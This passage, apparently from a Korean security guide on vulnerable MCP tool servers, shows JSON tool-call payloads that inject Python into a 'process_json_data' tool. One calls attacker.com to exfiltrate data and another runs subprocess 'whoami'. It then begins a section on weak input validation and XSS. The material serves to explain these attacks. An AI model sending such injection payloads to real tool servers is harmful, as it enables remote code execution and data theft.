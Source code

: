 #### 🚨 공격 예제 3: 네트워크 요청
```json
{
  "method": "tools/call",
  "params": {
    "name": "process_json_data",
    "arguments": {
      "json_data": "__import__('urllib.request').urlopen('http://attacker.com/exfiltrate').read()"
    }
  }
}
```

#### 🚨 공격 예제 4: 모듈 임포트 및 실행
```json
{
  "method": "tools/call",
  "params": {
    "name": "process_json_data",
    "arguments": {
      "json_data": "__import__('subprocess').run(['whoami'], capture_output=True, text=True).stdout"
    }
  }
}
```

### 실제 위험 상황
- 서버에서 임의 코드 실행
- 백도어 설치
- 데이터 유출

---

## 6. 🚨 Weak Input Validation (약한 입력 검증)

### 공격 시나리오
공격자가 입력 검증이 약한 필드를 통해 XSS나 HTML 인젝션 공격을 수행하는 상황입니다.

### 실행 예제

#### ✅ 정상적인 사용
```json
{
  "method": "tools/call",
  "params": {
    "name": "create_user_profile",
    "arguments": {
      "user_input": "John Doe"
    }
  }
}
```
